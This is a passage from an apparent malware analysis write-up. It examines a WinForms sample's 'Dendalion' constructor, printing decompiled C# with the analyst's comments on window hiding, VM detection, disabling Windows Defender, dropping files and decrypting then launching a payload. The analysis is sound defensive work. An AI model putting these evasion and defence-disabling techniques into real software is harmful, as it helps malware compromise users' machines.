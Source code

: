 ![](dumping-strings.png)

Now that we have a half-decent method of analyzing the payload, let's take a look at it.

## Dendalion

Task24Main is a WinForms application where a Forms class called 'Dendalion' is created in it's entrypoint. The constructor for this class looks like:

```cs
public Dendalion()
{
    _NUoUeuLffxMdLFTcbrnkw1RLahU(); // makes sure the window is hidden
    CheckSystemHardware(); // checks for vm
    SecOff(); // disables windows defender
    CreateRandomFiles(); // red herrings
    MakeBridge(); // dumps sys_rh.bin to C:\ProgramData\SystemFiles\, C:\ProgramData, C:\Users\[user]\AppData\Roaming & C:\Users\[user]\AppData\Local\Temp\

    // ???? HMM
    LDR.DAF(Crypter.Decrypt(watchlink, <Module>.smethod_4<string>(2308268466u)), <Module>.smethod_5<string>(581600440u), <Module>.smethod_4<string>(3273331201u), isexecute: true, iswatch: true);

    // another red herring
    Thread.Sleep(25000);
    UserL();
    Thread.Sleep(20000);

    // after payload is executed, exit process
    AbortProj();
}
```
> `_NUoUeuLffxMdLFTcbrnkw1RLahU()` and `CheckSystemHardware()` are uninteresting. They make sure the window is hidden and kills the process if common VM processes are detected (eg. vboxservice, vboxtray, etc.)
